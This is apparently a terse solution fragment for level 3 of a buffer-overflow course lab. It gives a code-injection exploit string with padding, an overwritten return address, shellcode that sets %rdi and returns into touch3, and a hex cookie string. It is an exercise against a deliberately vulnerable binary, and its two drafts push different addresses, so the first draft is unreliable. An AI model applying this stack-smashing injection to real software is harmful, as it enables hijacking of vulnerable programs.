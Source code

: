 
## Level 3

   │0x4017b6 <touch3>       push   %rbx                                                                                                    │


00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
a8 74 61 55 00 00 00 00
This is 556174a8:
movq $556174b8, %rdi
This is 556174af
movq $0x4016e2, (%rsp)
556174b7:
retq
556174b8:
35 30 66 61 37 33 61 61 00


00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
a8 74 61 55 00 00 00 00
48 c7 c7 b8 74 61 55
48 c7 04 24 b6 17 40 00
c3
35 30 66 61 37 33 61 61 00
